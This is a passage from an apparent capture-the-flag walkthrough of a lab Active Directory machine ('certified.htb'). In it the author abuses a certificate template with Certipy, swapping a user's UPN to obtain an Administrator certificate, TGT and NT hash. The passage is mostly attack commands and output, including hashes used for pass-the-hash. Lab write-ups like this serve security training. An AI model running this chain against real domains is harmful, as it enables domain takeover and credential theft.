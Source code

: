 Now I request certification for `ca_operator` certification using our vulnerbility:

```text
certipy req -u ca_operator -hashes :b4b86f45c6018f1b664f70805f45d8f2 -ca certified-DC01-CA -template CertifiedAuthentication -dc-ip 10.10.11.41
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 4
[*] Got certificate with UPN 'Administrator'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```

I successfully got certification of `Administrator`,but...

certipy auth -pfx administrator.pfx -dc-ip 10.10.11.41 -domain certified.htb
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@certified.htb
[*] Trying to get TGT...
[-] Got error while trying to request TGT: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)

I'll notice that our `UPN` is `Administrator` and there is no any SID in the certificate so I'll change back my upn to `ca_operator`

```text
certipy account update -u management_svc -hashes :a091c1832bcdd4677c28b5a6a1295584 -user ca_operator -upn ca_operator@certified.htb -dc-ip 10.10.11.41 
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_operator':
    userPrincipalName                   : ca_operator@certified.htb
[*] Successfully updated 'ca_operator'
```

After that, I'll use our certificate to get Administrator hash

```text
certipy auth -pfx administrator.pfx -dc-ip 10.10.11.41 -domain certified.htb
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@certified.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@certified.htb': aad3b435b51404eeaad3b435b51404ee:0d5b49608bbce1751f708748f67e2d34
```

## Auth as Administrator

Now I finally have Administrator access
